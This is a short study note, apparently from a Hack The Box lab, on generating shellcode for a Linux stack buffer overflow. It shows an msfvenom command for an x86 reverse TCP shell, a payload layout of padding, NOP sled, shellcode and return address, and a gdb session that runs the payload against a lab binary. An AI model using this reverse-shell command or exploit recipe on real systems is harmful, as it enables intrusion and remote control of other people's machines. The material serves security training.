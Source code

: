 ```yaml
---
title: "Generate Shellcode"
tags:
  - cs/hacking
  - cs/hacking/htb
programming-languagues:
created: 2022-07-12
---
```

This is part of a guide that you can find [here](notes/hacking/htb-stack-based-overflow-linux.md).

We have to pay attention to:

- Architecture
- Platform
- Bad Characters


We can use `msfvenom` to generate our shellcode:

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

So:

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

Now we have:

```bash
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
EIP = "\x66" * 4'
```

So we exploit:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

We can check if the first bytes of our shellcode matches the bytes after the NOPS:

```bash
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

